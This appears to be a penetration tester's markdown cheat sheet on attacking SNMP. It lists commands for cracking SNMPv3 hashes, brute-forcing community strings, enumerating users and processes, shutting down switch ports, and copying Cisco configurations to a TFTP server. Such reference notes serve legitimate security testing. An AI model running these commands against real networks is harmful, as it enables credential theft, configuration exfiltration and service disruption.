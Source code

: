 # SNMP

The fruit in SNMP can be easy to miss. Things to look out for.
1. Reading SNMP values may yield info such as processes that include usernames (new users to brute force), software versions (exploitdb) or even passwords (try the creds)
2. Writing SNMP values may allow a user to modify configurations of devices, such as changing TCP/IP info or disabling traffic flows (disable the port). This is more common on network infrastructure.
3. Custom devices may have corresponding custom MIBs. Be on the lookout for custom MIBs upon obtaining file system access. You may be surprised what you have control over.

The list below is ordered in convenience of my memory not order of operations during a penetration test

## Cracking SNMPv3
1. Convert pcap file to hashes
```
tshark -q -Xlua_script:network2john.lua -r selected.pcap
*Note: network2john is not a part of the default kali distro, however it is a part of the john github and/or parrotOS distro
```
2. Crack hash
```
john hashfile --wordlist=/opt/seclists/wordlist.txt

hashcat -m 25000 -a 0 <hashfile> <wordlist>
# Hashcat hash modes
25000 - SNMPv3 HMAC-MD5-96/HMAC-SHA1-96
25100 - SNMPv3 HMAC-MD5-96
25200 - SNMPv3 HMAC-SHA1-96
```

## Setting values
```
# Set ifAdminStatus (RFC1213) to admin shutdown port (need to add port value to MIB value)
snmpset -v3 -l authPriv -u User -a SHA -A AuthPass1 -x AES -X PrivPass2 x.x.x.x 1.3.6.1.2.1.2.2.1.7.x i 2
snmpset -v 2c -c public x.x.x.x 1.3.6.1.2.1.2.2.1.7.x i 2
```

## Discover community strings
```
# Metasploit
use auxiliary/scanner/snmp/snmp_login

# onesixtyone
onesixtyone -c <fullpathwordlist> <targetIP>

# nmap
nmap -sU -p 161 <targetIP> --script snmp-brute --script-args snmp-brute.communitiesdb=/usr/share/seclists/Misc/wordlist-common-snmp-community-strings.txt
```

## View Values
```
# Collect info
snmpwalk -v 2c <targetIP> -c public
*Note: If you need to load MIBs comment out 4th line of /etc/snmp/snmp.conf

# List software installed
snmpwalk -c public -v1 <targetIP> hrSWInstalledName

# Metasploit
auxiliary/scanner/snmp/snmp_enum
```

## MIB values
```
# Microsoft MIB values
1.3.6.1.2.1.25.1.6.0 	System Processes 
1.3.6.1.2.1.25.4.2.1.2 	Running Programs 
1.3.6.1.2.1.25.4.2.1.4 	Processes Path 
1.3.6.1.2.1.25.2.3.1.4 	Storage Units 
1.3.6.1.2.1.25.6.3.1.2	 Software Name 
1.3.6.1.4.1.77.1.2.25 	User Accounts 
1.3.6.1.2.1.6.13.1.3   	TCP Local Ports 

# Cisco MIB values for copying a new running config (not tested)
1.) Set MIB values by name (Must have the Cisco MIBS: CISCO-SMI-V1SMI, SNMPv2-TC-V1SMI, CISCO-CONFIG-COPY-MIB-V1SMI,CISCO-FLASH-MIB-V1SMI)
snmpset -v 1 -c private <device name> ccCopyProtocol.<random number> integer 1 
ccCopySourceFileType.<Random number> integer 1 ccCopyDestFileType.<Random number> integer 3 ccCopyServerAddress.<Random number> ipaddress "<server ip address>" ccCopyFileName. <Random number> octetstring "<file name>" ccCopyEntryRowStatus.<Random number> integer 4  

2.) Enter Return and you see this output (111 is the random number in this example):

        cisco.ciscoMgmt.ciscoConfigCopyMIB.ciscoConfigCopyMIBObjects.ccCopy.
        ccCopyTable.ccCopyEntry.ccCopyProtocol.111 : INTEGER: tftp 
        cisco.ciscoMgmt.ciscoConfigCopyMIB.ciscoConfigCopyMIBObjects.ccCopy.
        ccCopyTable.ccCopyEntry.ccCopySourceFileType.111 : INTEGER: networkFile 
        cisco.ciscoMgmt.ciscoConfigCopyMIB.ciscoConfigCopyMIBObjects.ccCopy.
        ccCopyTable.ccCopyEntry.ccCopyDestFileType.111 : INTEGER: startupConfig 
        cisco.ciscoMgmt.ciscoConfigCopyMIB.ciscoConfigCopyMIBObjects.ccCopy.
        ccCopyTable.ccCopyEntry.ccCopyServerAddress.111 : IpAddress: 172.17.246.205 
        cisco.ciscoMgmt.ciscoConfigCopyMIB.ciscoConfigCopyMIBObjects.ccCopy.
        ccCopyTable.ccCopyEntry.ccCopyFileName.111 : 
        DISPLAY STRING- (ascii):  foo-confg 
        cisco.ciscoMgmt.ciscoConfigCopyMIB.ciscoConfigCopyMIBObjects.ccCopy.
        ccCopyTable.ccCopyEntry.ccCopyEntryRowStatus.111 : INTEGER: createAndGo  

3.) Check the copy status to verify if the copy is successful.
snmpwalk <device name> ccCopyState 
        cisco.ciscoMgmt.ciscoConfigCopyMIB.ciscoConfigCopyMIBObjects.ccCopy.
        ccCopyTable.ccCopyEntry.ccCopyState.111 : INTEGER: running 

4.) Repeat step 3 until you see the status: successful.

        C:\>snmpwalk <device name> ccCopyState 
        cisco.ciscoMgmt.ciscoConfigCopyMIB.ciscoConfigCopyMIBObjects.ccCopy.
        ccCopyTable.ccCopyEntry.ccCopyState.111 : INTEGER: successful 

5.) Once you get the successful status, you can clear the row entry. In this example, the row is the <random number> that you chose previously.
snmpset -v 1 -c private <device name> ccCopyEntryRowStatus.111 integer 6 
        cisco.ciscoMgmt.ciscoConfigCopyMIB.ciscoConfigCopyMIBObjects.ccCopy.
        ccCopyTable.ccCopyEntry.ccCopyEntryRowStatus.111 : INTEGER: destroy 

# To copy config from device and transfer to tftp server complete steps 1-5 and make changes to the following values
ccCopySourceFileType.<Random number> integer 4 
ccCopyDestFileType.<Random number> integer 1 

# OID number example
1.) Set the values
snmpset -v 1 -c private <device name> .1.3.6.1.4.1.9.9.96.1.1.1.1.2.<Random number> integer 1 .1.3.6.1.4.1.9.9.96.1.1.1.1.3.<Random number> integer 4 .1.3.6.1.4.1.9.9.96.1.1.1.1.4.<Random number> integer 1 .1.3.6.1.4.1.9.9.96.1.1.1.1.5.<Random number> ipaddress "<server ip address>" .1.3.6.1.4.1.9.9.96.1.1.1.1.6.<Random number> octetstring "<file name>" .1.3.6.1.4.1.9.9.96.1.1.1.1.14.<Random number> integer 4 
2.) Check the status
snmpwalk cognac .1.3.6.1.4.1.9.9.96.1.1.1.1.10

3.) Clear the row
snmpset -v 1 -c private <device name> .1.3.6.1.4.1.9.9.96.1.1.1.1.14.<Random number> integer 6 
```

## SNMP significant files
```
#Dump snmp Settings
reg query hklm\SOFTWARE\Policies\SNMP /s
reg query hklm\System\CurrentControlSet\Services\SNMP /s
```

## Resources
1. https://applied-risk.com/resources/brute-forcing-snmpv3-authentication
2. https://github.com/matrix/snmpv3brute
  *Note: Fork github of applied risk's that extracts to hashcat format
3. https://github.com/openwall/john
4. https://www.cisco.com/c/en/us/support/docs/ip/simple-network-management-protocol-snmp/15217-copy-configs-snmp.html#app

## Miscellaneous
 ```
# Other tools
# download from http://dl.packetstormsecurity.net/UNIX/scanners/snmpenum.zip
# convert to unix
dos2unix.txt
#run
perl snmpenum.pl <targetIP> public windows.txt
```
